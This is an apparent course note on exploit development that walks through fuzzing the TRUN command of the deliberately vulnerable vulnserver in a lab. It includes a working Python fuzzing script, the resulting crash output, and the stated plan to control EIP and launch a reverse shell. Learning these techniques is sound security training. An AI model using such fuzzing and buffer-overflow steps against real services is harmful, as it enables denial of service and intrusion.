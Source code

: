 # Fuzzing

Very similar to spiking in the sense that we will send a series of characters at a specific command and try to break it

Difference: In spiking, we try to do that to multiple commands and find what's vulnerable. For us, now that we know that TRUN is vulnerable, we will go and attack that and try to figure out how to break it. 

Every time we crash vulnserver, make sure to restart it, and restart the debugger + run as admin 

Copied file `1.py`:
```
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		s.send(('TRUN /.:/' + buffer ))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()
```

We run it against the vulnserver and eventually it does crash.
We receive:
```shell
root@kali:~/PEH# ./1.py 
Fuzzing crashed at 2700 bytes
```

We now know we crashed around 3000 bytes. Next step, we need to find where the EIP is at

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/17b7121616c3453084c863c9f050b505.png)

Once we control the EIP value, we can point it to our malicious code and run our reverse shell

